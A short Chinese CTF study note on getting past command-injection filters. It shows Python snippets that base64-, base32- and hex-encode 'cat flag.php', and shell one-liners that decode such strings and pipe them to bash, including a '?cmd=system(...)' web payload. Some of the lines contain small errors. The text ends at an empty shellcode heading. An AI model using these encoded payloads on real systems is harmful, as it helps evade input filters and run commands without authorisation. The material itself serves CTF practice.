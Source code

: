 **绕过方法**

![image-20240424175819140](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202404241758202.png)

1.base64编码

```
import base64
s=b'cat flag.php'
e64=base64.b64encode(s) 参数s的类型不必须是字节包
print（e64）

#echo Y2FOIGZsYWcucGhw|base64 -d
|把前面指令执行的结果变成后面指令的参数

执行命令
#echo Y2FOIGZsYWcucGhw|base64 |bash
#`echo Y2FOIGZsYWcucGhw|base64`
#$(echo Y2FOIGZsYWcucGhw|base64)
```

2.base32编码

```
import base64
s=b'cat flag.php'
e64=base64.b32encode(s) 参数s的类型不必须是字节包
print（e64）

?cmd=system('echo"MNQXIIDGNRQWOLTQNBYA===="|base32 -d|/bin/bash');

```

base32和Base64的区分方法
		看到编码内容，只有大写和数字
		根据Base64和Base32 区别：
		base64中包含大写字母（A-Z），小写字母（a-z），数字0—9以及+/；
		base32中只包含大写字母（A-Z）和数字234567

3.hex编码

```
import binascii
s=b'tac flag'
h=binascii.b2a_hex(s)
print(h) 

执行命令
echo “ ”|xxd -r -p |bash
xxd 二进制显示和处理文件工具
-r -p将纯十六进制转储的反向输出打印为了ascll格式
bash也可换成sh、/bin/bash、反引号
```

4.shellcode编码
